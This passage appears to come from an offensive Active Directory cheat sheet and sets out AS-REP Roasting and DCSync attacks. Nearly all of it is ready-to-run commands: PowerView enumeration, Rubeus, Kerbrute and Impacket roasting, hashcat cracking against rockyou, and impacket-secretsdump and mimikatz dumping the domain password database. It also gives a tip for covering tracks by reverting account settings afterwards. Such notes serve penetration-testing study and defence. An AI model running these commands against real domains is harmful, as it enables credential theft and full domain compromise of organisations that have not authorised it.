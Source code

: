 ```powershell title='ASREPRoasting'
# PowerView: Getting all accounts with `Do not require Kerberos Pre-Authentication` settings enabled
Get-DomainUser -PreauthNotRequired | Select SamAccountName,UserPrincipalName,UserAccountControl | fl

# PowerView: Performing AS-REP Roasting on a account
.\Rubeus.exe asreproast /user:'<USERNAME>' /nowrap /format:hashcat

# Kerbrute: Performing AS-REP Roasting on a account
kerbrute userenum -d 'hhesenjan.local' --dc '<DC-IP>' /opt/jsmith.txt

# Impacket: Performing AS-REP Roasting on a account
impacket-GetNPUsers 'hhesenjan.local' -dc-ip '<DC-IP>' -no-pass -usersfile 'valid_ad_users'

# Hascat: Cracking the password offline
hashcat -m 18200 '<OUTPUT_FILENAME>'  '/usr/share/wordlists/rockyou.txt'
```

When a user has `GenericWrite` or `GenericAll` over a domain account they can enable `Kerberos Pre-Authentication` settings on the domain account and obtain the TGT ticket to crack the password offline. Once they obtain the TGT ticket they can disable the settings as nothing ever happened with tat account.

### DCSync

DCSync is a technique that consists of stealing the Active Directory Password Database *(NTDS.dit)* by using the Replication Service Remote Protocol which is commonly used by domain controllers to replicate data between other domain controllers. If a user is misconfigured with the permission `DS-Replication-Get-Changes-All` that will allow them to replicate the database. The two tools that comes with the capabilities to perform DCSync attack is `secretsdump` and `mimikatz`.

```powershell title='DCSync with SecretsDump'
# PowerView: Checking for DCsync privileges
$SID = Convert-NameToSid '<USERNAME>'
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

# PowerView: Finding accounts with reversible encryption enabled
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} | select samaccountname,useraccountcontrol

# PowerView: Performing DCSync attack
impacket-secretsdump -outputfile '<OUTPUT-FILENAME>' -just-dc '<DOMAIN>/<USERNAME>@<IP>'
```

```powershell title='DCSYNC with Mimikatz'
# Mimikatz: Starting a shell with user that has DS-Replication-Get-Changes-All permissions
runas /netonly /user:'<DOMAIN>\<USERNAME>' powershell

# Mimikatz: Enabling privileged debugging
privilege::debug

# Mimikatz: Performing DCSync attack
lsadump::dcsync /domain:<DOMAIN-NAME> /user:<DOMAIN>\administrator
```
